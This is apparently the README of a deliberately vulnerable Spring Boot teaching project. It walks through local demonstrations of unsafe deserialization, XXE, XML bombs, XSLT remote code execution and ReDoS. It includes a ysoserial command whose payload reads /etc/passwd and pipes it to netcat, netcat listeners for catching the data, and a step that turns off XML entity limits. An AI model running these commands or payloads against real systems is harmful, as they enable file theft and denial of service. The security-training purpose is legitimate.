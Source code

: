 # Spring Boot - Backend vulnerabilities examples

## Movies with exploitation of:
### [Unsafe Java object deserialization](https://drive.google.com/open?id=1YmJzBR355nG0v9avQdMEbOX7ddq99-N_)
### [XML External Entity (XXE)](https://drive.google.com/open?id=1j6UKJ1fp96cjEh2Cc18N9stsNgGcj2Pg)
### [XML bombs](https://drive.google.com/open?id=1FVg0YzWJyiSPPx3SPB7FBa3iYFuGTgTe)
### [RCE with XSLT](https://drive.google.com/open?id=1rBPmZQQ5y13uCjRMvdu_f0Zi8eKJDuuo)
### [ReDoS](https://drive.google.com/open?id=1_gjB1LlI_IvASfAKtE-eLKBGFIT1Oh_S)


## Run & exploit

### Payloads
Payloads for exploitation can be found in payload folder of the project and its subdirectories.

### Unsafe Java object deserialization
- Generate payload with ysoserial toolkit (https://github.com/frohoff/ysoserial)
`java -jar ysoserial.jar CommonsCollections5 'bash -c {cat,/etc/passwd}|{nc,127.0.0.1,1234}' > serialization_issue.dat`
- Run application
`mvn spring-boot:run`
- Open another terminal and run nc in listen mode:
`nc -l -p 1234`
- Open in browser 'http://localhost:8080/upload-attendee'
- Upload 'serialization_issue.dat' prepared with ysoserial toolkit
- Check terminal with running nc in listen mode to check see content of your /etc/passwd sent by application.

### XML External Entity (XXE)
- Run application
`mvn spring-boot:run`
- Run postman, import collection 'XXE.postman_collection.json' and environment 'local - 8080.postman_environment.json'
- Send request 'Attendee upload xml - XEE' from imported collection
- Check response of server to read /etc/passwd content

### XML bombs
- Run application with additional parameters
`mvn spring-boot:run -Djdk.xml.entityExpansionLimit=0 -Djdk.xml.entityReplacementLimit=0 -Djdk.xml.totalEntitySizeLimit=0`
Note that you turn off upper boundary limits for XML parser. Additional `-Xmx1024m` parameter could be added in case memory would be consumed too quickly.
- Run postman, import collection 'XXE.postman_collection.json' and environment 'local - 8080.postman_environment.json'
- Send request 'Attendee upload xml - XML Bomb' from imported collection
- Monitor usage of CPU and Memory for java process

### RCE with XSLT
- Run application
`mvn spring-boot:run`
- Open another terminal and run nc in listen mode:
`nc -l -p 1234`
- Open in browser 'http://localhost:8080/upload-attendee-xslt'
- Copy payload available in file 'xml_payload_attendee.txt' to field with 'XML' label
- Copy payload available in file 'xslt_payload_attendee.txt' to field with 'XSLT' label
- Press 'Transform button'
- Check terminal with running nc in listen mode to check see content of your /etc/passwd sent by application.

### ReDoS
- Run application
`mvn spring-boot:run`
- Open in browser 'http://localhost:8080/attendeemng'
- Fill in fields 'First Name', 'Last Name' with arbitrary values
- Fill in 'Email' field with multiple 'a' characters eg. 'aaaaaaaaaaaaaaaaaaaaaaaaaa' and press 'Add Attendee'
- Retry addition of attendee with email that has additional 'a' characters until validation doesn't finish in "reasonable" time amount.
